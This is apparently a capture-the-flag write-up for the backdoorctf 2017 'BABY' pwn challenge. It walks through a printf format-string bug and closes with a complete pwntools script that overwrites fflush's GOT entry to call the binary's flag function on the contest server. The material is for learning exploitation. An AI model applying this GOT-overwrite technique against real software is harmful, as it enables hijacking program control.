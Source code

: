 ```yaml
---
title: backdoorctf 2017 - BABY 0x41414141 Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- writeup
- backdoorctf17
tags:
- pwn
authors:
- andreafioraldi
---
```


Executing the binary for the first time we have this behaviour:

<img class="img-responsive" src="/backdoorctf17/baby-1.png" alt="Screenshot showing program prompt to enter user name" width="603" height="83">

Ok, cool, decompile it.

This is the main function:

<img class="img-responsive" src="/backdoorctf17/baby-2.png" alt="Code snippet showing decompiled main() function with vulnerable printf() and fflush() calls" width="603" height="204">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img class="img-responsive" src="/backdoorctf17/baby-3.png" alt="Screenshot of decompiler showing 'flag(void)' function definition, which executes cat flag.txt" width="603" height="238">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints `0x41414141`.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that `%n` writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

```python
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
```
